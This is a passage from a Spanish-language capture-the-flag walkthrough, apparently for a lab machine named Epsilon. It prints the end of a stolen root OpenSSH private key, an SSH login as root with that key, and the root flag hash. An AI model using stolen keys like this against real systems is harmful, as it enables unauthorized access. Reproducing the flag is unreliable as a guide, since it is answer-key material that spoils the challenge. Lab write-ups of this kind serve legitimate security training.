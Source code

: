 ```null
2uzGlUx4sSMmovkCIXMoMSHa7BhEH2WHHCQt6nvvM+m04vravD4GE5cRaBibwcc2XWHQAA
AMEAxHVbgkZfM4iVrNteV8+Eu6b1CDmiJ7ZRuNbewS17e6EY/j3htNcKsDbJmSl0Q0HqqP
mwGi6Kxa5xx6tKeA8zkYsS6bWyDmcpLXKC7+05ouhDFddEHwBjlCck/kPW1pCnWHuyjOm9
eXdBDDwA5PUF46vbkY1VMtsiqI2bkDr2r3PchrYQt/ZZq9bq6oXlUYc/BzltCtdJFAqLg5
8WBZSBDdIUoFba49ZnwxtzBClMVKTVoC9GaOBjLa3SUVDukw/GAAAAwQD0scMBrfeuo9CY
858FwSw19DwXDVzVSFpcYbV1CKzlmMHtrAQc+vPSjtUiD+NLOqljOv6EfTGoNemWnhYbtv
wHPJO6Sx4DL57RPiH7LOCeLX4d492hI0H6Z2VN6AA50BywjkrdlWm3sqJdt0BxFul6UIJM
04vqf3TGIQh50EALanN9wgLWPSvYtjZE8uyauSojTZ1Kc3Ww6qe21at8I4NhTmSq9HcK+T
KmGDLbEOX50oa2JFH2FCle7XYSTWbSQ9sAAADBAOD9YEjG9+6xw/6gdVr/hP/0S5vkvv3S
527afi2HYZYEw4i9UqRLBjGyku7fmrtwytJA5vqC5ZEcjK92zbyPhaa/oXfPSJsYk05Xjv
6wA2PLxVv9Xj5ysC+T5W7CBUvLHhhefuCMlqsJNLOJsAs9CSqwCIWiJlDi8zHkitf4s6Jp
Z8Y4xSvJMmb4XpkDMK464P+mve1yxQMyoBJ55BOm7oihut9st3Is4ckLkOdJxSYhIS46bX
BqhGglrHoh2JycJwAAAAxyb290QGVwc2lsb24BAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Me conecto y puedo ver la segunda flag

```null
ssh -i id_rsa root@10.10.11.134
The authenticity of host '10.10.11.134 (10.10.11.134)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:18: [hashed name]
    ~/.ssh/known_hosts:24: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.134' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-97-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 15 Jun 2023 04:31:05 PM UTC

  System load:                      0.0
  Usage of /:                       67.2% of 5.78GB
  Memory usage:                     17%
  Swap usage:                       0%
  Processes:                        245
  Users logged in:                  0
  IPv4 address for br-a2acb156d694: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.134
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:6f56

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Feb  7 01:51:07 2022
root@epsilon:~# cat /root/root.txt 
6b3188c957cafd4d2268c43a6969e262
```